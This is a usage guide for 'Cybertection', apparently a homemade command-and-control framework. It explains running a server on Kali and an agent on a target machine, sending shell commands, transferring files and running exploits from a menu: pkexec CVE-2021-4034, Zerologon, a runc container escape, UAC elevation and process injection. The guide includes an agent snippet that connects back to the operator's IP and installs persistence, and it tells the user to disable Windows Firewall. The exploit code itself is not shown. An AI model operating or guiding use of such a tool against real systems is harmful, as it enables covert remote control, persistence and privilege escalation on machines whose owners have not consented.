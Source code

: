 # cybertection_server

Example Workflow
Kali Terminal 1: python3 cybertection_server.py.
Kali Terminal 2: python3 cybertection_agent.py.
GUI: Select agent, type whoami, click "Send"—see root.
Exploit: Choose "CVE-2021-4034," click "Run Exploit"—check output.
Log: Click "View Log," filter "cve" to review.
_______________________________________________________________________________________________________________

HOW TO USE


Copy and paste code in a text editor or ide

You must change the ipadress and port number in line 11.


Using the Framework
GUI Overview
Connected Agents: List of IPs/ports of active agents.
Output Area: Shows real-time logs (e.g., connections, command responses).
Command Input: Type commands to send to a selected agent.
Exploit Menu: Dropdown with exploits.
View Log: Opens a filterable log window.

Commands
Select an Agent:
Click an agent in the "Connected Agents" list (e.g., ('127.0.0.1', 54321)).

Send Basic Commands:
Type in "Command" box, click "Send":
whoami: Returns username (e.g., root on Kali).
ls (Linux) or dir (Windows): Lists directory contents.
cd /tmp: Changes directory (adjust for Windows, e.g., cd C:\Temp).
sysinfo: Shows OS and machine details.

File Transfer:
Upload: upload /path/to/file.txt (e.g., upload /home/kali/test.txt).
Download: download file.txt (saves as downloaded_file.txt on server).

Run Exploits:
Select exploit from dropdown, click "Run Exploit":
Elevate (Windows): Tries UAC elevation (Windows-only).
Inject (Windows): Simulates notepad injection (Windows-only).
CVE-2021-4034 (Linux): Escalates via pkexec (Kali, unpatched < Jan 2022).
CVE-2020-1472 (Zerologon - Windows): Resets DC password (needs impacket, DC setup).
CVE-2019-5736 (runc Escape - Linux): Container breakout (needs runc container).
Output appears in GUI and log.

View Logs:
Click "View Log".
Type in filter (e.g., "cve" to see exploit attempts).
Logs saved to cybertection_log.txt.
Exit:
Type exit in command box to disconnect an agent.
Close GUI to shut down server.
______________________________________________________________________________________________________
Troubleshooting [ERROR 111]
If you still see "Connection refused":

Server Not Listening:
netstat -tuln | grep 4444: No output means server didn’t bind.
Fix: Change port (e.g., port=5555 in both files), rerun.
Firewall:
sudo ufw status: If "inactive," use iptables -L and iptables -A INPUT -p tcp --dport 4444 -j ACCEPT.
Wrong IP:
Same machine: Keep 127.0.0.1.
Remote: Use Kali’s IP (e.g., 192.168.1.100).
SSL:
Test without: Comment wrap_socket lines in both files, rerun.


If "Connection Refused" Persists

Port Conflict: Change port=4444 to 5555 in both files, update firewall.

Firewall: sudo iptables -L (if ufw off), allow 4444: sudo iptables -A INPUT -p tcp --dport 4444 -j ACCEPT.

IP: If agent’s on Windows , use Kali’s IP, not 127.0.0.1.

SSL: Test without SSL (comment out wrap_socket lines in both).
___________________________________________________________________________________________________________
TROUBLESHOOTING

Why Commands Aren’t Sending
Agent Not Selected: The GUI requires selecting an agent from the "Connected Agents" list before sending works.
Command Queue Issue: The command_queue might not be updating or clearing properly.
Threading Lock: The handle_client thread might be stuck waiting for get_command_from_gui.
Socket Error: The client socket might’ve closed silently, breaking communication.
GUI Event: The "Send" button’s logic might not trigger correctly.
__________________________________________________________________________________________________________-

How to Run on Kali Linux
Prerequisites
Python: sudo apt install python3.
OpenSSL: sudo apt install openssl.
Tkinter: sudo apt install python3-tk.
Impacket: pip3 install impacket (for CVE-2020-1472).
GCC: sudo apt install build-essential (for CVE-2021-4034, CVE-2019-5736).

Steps
Generate SSL Certs:
Run server first: python3 cybertection_server.py.
Creates server.crt and server.key if missing.

Start Server:
python3 cybertection_server.py (GUI opens).
Check terminal: Should say "started on 0.0.0.0:4444".
Verify: netstat -tuln | grep 4444.

Allow Port:
sudo ufw allow 4444/tcp (if ufw is active; check with sudo ufw status).

Run Agent:
Same machine: python3 cybertection_agent.py (uses 127.0.0.1).
Different machine: Edit server_host to Kali’s IP (e.g., 192.168.1.100 via ifconfig), then run.

Debug Output:
Agent: Look for "Attempting connection" and "Connected!" or error details.
Server: Check log in GUI or cybertection_log.txt.
__________________________________________________________________________________________________________
Prerequisites
on Kali Linux:

Python 3: Should be pre-installed (python3 --version to check).
Tkinter: For the GUI—install with sudo apt install python3-tk.
OpenSSL: For SSL certs—install with sudo apt install openssl.
Impacket: For CVE-2020-1472—install with pip3 install impacket.
GCC: For CVE-2021-4034 and CVE-2019-5736—install with sudo apt install build-essential.
Net-tools: For netstat—install with sudo apt install net-tools.
_________________________________________________________________________________________________________

CONTINUED 
Running the Framework

Scenario 1: Server and Agent on Same Machine (Kali Linux)
Start the Server:
In a terminal:
bash
Wrap
Copy
python3 cybertection_server.py

GUI titled "Cybertection Server" opens.
Terminal shows: [2025-02-23 ...] Cybertection C2 Server started on 0.0.0.0:4444 (SSL).
Verify: netstat -tuln | grep 4444 (should show 0.0.0.0:4444 listening).
Start the Agent:
In a new terminal (same directory):
bash
Wrap
Copy
python3 cybertection_agent.py
Output:
text
Wrap
Copy
[*] Attempting connection to 127.0.0.1:4444
[+] Connected to Cybertection C2 at 127.0.0.1:4444 (SSL)

GUI: "Connected Agents" list shows ('127.0.0.1', <random_port>).


Scenario 2: Server on Kali, Agent Elsewhere (e.g., HP Envy Windows)
Find Kali’s IP:
ifconfig (or ip addr): Look for inet under your network interface (e.g., eth0 or wlan0), like 192.168.1.100.
Update Agent:
Edit cybertection_agent.py:
python
Wrap
Copy
if __name__ == "__main__":
    agent = CybertectionAgent(server_host="192.168.1.100")  # Replace with Kali’s IP
    threading.Thread(target=agent.run).start()
    agent.persist()

Copy server.crt to the agent machine’s directory (optional, since CERT_NONE is used).

Start Server on Kali:
Same as above: python3 cybertection_server.py.

Start Agent on Windows:
Install Python 3 on Windows (if not already): Download from python.org.
Run: python cybertection_agent.py.
Ensure Windows Firewall allows outbound to 4444 (or disable temporarily: Control Panel > Windows Defender Firewall > Turn off).
